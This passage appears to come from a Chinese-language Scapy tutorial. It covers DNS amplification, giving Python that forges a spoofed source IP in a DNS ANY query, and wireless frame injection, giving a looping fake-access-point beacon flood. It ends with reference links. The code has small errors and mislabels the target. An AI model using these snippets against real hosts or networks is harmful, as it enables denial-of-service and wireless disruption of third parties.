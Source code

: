 ### 11.2. DNS Amplification Attack

DNS 放大攻击 / DNS 杠杆攻击：
利用 DNS 回复包比 DNS 查询包大的特点（放大流量），伪造请求包的源 IP 地址，将应答包引向被攻击的目标，以达到对目标服务器 DDoS 的效果；
要实现 DNS 放大，需要使用的 DNS 服务器支持递归查询；

例：
```python
# 构造 IP 包
i = IP(dst='8.8.8.8', src='192.168.1.200') # 8.8.8.8 为要攻击的目标 DNS，192.168.1.200 为伪造的源 ip
# 构造 UDP 包
u = UDP(dport=53)
# 构造 DNS 包
d = DNS(rd=1, qdcout=1)
# 设置 DNS 查询内容
d.qd = DNSQR(qname=”www.baidu.com”, qtype=255)
# 组合成最终查询包
package = (i/u/d)
# 发送查询包并将响应写入到本地 dns.pcap 文件中
wrpcap(“dns.pcap”, sr1(package))
通过使用 wireshark 查看 dns.pcap 可知：查询时发送的数据包为 68 字节，但响应包为 118 字节，即基本实现了使用放大流量的目的，通过加入循环等具体措施可使效果增强；
```

## 12. Wireless frame injection

frame injection 的前提是你的无线网卡和驱动得正确配置好。

```
$ ifconfig wlan0 up
$ iwpriv wlan0 hostapd 1
$ ifconfig wlan0ap up
```

例：构造一个 FakeAP
```
>>> sendp(Dot11(addr1="ff:ff:ff:ff:ff:ff",addr2=RandMAC(),addr3=RandMAC())/
          Dot11Beacon(cap="ESS")/
          Dot11Elt(ID="SSID",info=RandString(RandNum(1,50)))/
          Dot11Elt(ID="Rates",info='\x82\x84\x0b\x16')/
          Dot11Elt(ID="DSset",info="\x03")/
          Dot11Elt(ID="TIM",info="\x00\x01\x00\x00"),iface="wlan0ap",loop=1)
```

## 13. Refer Links

官方文档：https://scapy.readthedocs.io/en/latest  

中文文档：https://wizardforcel.gitbooks.io/scapy-docs/content/3.html   

参考：   

http://www.jinglingshu.org/?p=10390    

http://blog.csdn.net/lemon_tree12138/article/details/51141440    

http://blog.csdn.net/lemon_tree12138/article/details/51198116